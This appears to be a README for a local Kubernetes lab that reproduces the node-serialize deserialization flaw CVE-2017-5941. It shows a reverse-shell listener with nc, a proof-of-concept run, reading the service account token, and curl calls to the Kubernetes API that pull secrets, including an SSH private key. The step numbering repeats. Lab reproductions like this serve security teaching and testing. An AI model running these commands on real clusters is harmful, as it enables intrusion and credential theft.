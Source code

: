 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce

1- `minikube start` \
2- `kubectl apply -f scenario-3-server.yaml` \
3- Create a test github account, generate SSH key and add to this account, we used an account with temporary mail.
4- Generate and add secret with base64 encoding with `kubectl create secret generic github-ssh-key --from-file=ssh-privatekey=/path/to/github_key`
3- Forward port `kubectl port-forward pods/scenario-3-server-deployment-c9b7c56cf-ggvgm 4242:4242` \
4- Listen on port `1234` and your ip for TCP connections like `nc -l 144.122.139.40 1234` \
5- Run poc.py with your ip `./poc.py 144.122.139.40` \
6- install curl with `apt-get -y update; apt-get -y install curl`
7- Because of the misconfigured permissions, attacker can access the secrets with `TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)`
8- Get pods with `curl --insecure --header "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces/default/pods`
7- Get secrets (the SSH Key) with Kubernetes API calls `curl --insecure --header "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces/default/secrets`
8- Attacker now has the ssh-privatekey
9- Attacker finds the repository url (which is https://github.com/exploit-me-co/exploit-this) in server.js, now they can access the repository with full access.

